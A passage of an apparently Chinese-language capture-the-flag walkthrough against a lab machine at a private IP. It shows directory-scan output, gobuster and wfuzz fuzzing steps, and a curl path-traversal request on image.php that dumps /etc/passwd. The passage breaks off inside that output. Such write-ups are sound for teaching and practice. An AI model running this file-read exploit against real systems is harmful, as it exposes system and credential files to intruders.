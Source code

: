     -----------------
    
    GENERATED WORDS: 4612                                                          
    
    ---- Scanning URL: http://192.168.2.131/ ----
    + http://192.168.2.131/dev (CODE:200|SIZE:131)            
    + http://192.168.2.131/index.php (CODE:200|SIZE:136)           
    ==> DIRECTORY: http://192.168.2.131/javascript/                  
    + http://192.168.2.131/server-status (CODE:403|SIZE:278)          
    ==> DIRECTORY: http://192.168.2.131/wordpress/                                                                                             
    ---- Entering directory: http://192.168.2.131/javascript/ ----
    ==> DIRECTORY: http://192.168.2.131/javascript/jquery/                                                                                    
    ---- Entering directory: http://192.168.2.131/wordpress/ ----
    + http://192.168.2.131/wordpress/index.php (CODE:301|SIZE:0)     
    ==> DIRECTORY: http://192.168.2.131/wordpress/wp-admin/           
    ==> DIRECTORY: http://192.168.2.131/wordpress/wp-content/       
    ==> DIRECTORY: http://192.168.2.131/wordpress/wp-includes/      
    + http://192.168.2.131/wordpress/xmlrpc.php (CODE:405|SIZE:42)      
    ```
    
-   依次查看以上暴露出的文件![image-20230518114935144](https://raw.githubusercontent.com/r0o983/images/main/image-20230518114935144.png)

-   继续使用`gobuster`进行二次针对文件类型的扫描

-   >   参数：
    >
    >   -x 指定文件类型进行扫描，多个文件类型以逗号分隔

-   ![image-20230518115300758](https://raw.githubusercontent.com/r0o983/images/main/image-20230518115300758.png)

-   访问找出的`secret.txt`![image-20230518115426043](https://raw.githubusercontent.com/r0o983/images/main/image-20230518115426043.png)

-   根据以上[github][https://github.com/hacknpentest/Fuzzing/blob/master/Fuzz_For_Web]的提示页面使用`wfuzz`来进行扫描目录文件

    -   参数：--hw 过滤掉12个字符长度的扫描结果

-   ![image-20230518123523956](https://raw.githubusercontent.com/r0o983/images/main/image-20230518123523956.png)

-   ![image-20230518124022721](https://raw.githubusercontent.com/r0o983/images/main/image-20230518124022721.png)

-   根据提示访问`secrettier360`来进行访问![image-20230518145541792](https://raw.githubusercontent.com/r0o983/images/main/image-20230518145541792.png)

-   该网站存在任意文件读取漏洞

-   ```shell
    └─$ curl http://192.168.2.131/image.php?secrettier360=/../../../../../../../../../../../../../../etc/passwd            
    <html>
    <title>HacknPentest</title>
    <body>
     <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" /></p></p></p>
    </body>
    finaly you got the right parameter<br><br><br><br>root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin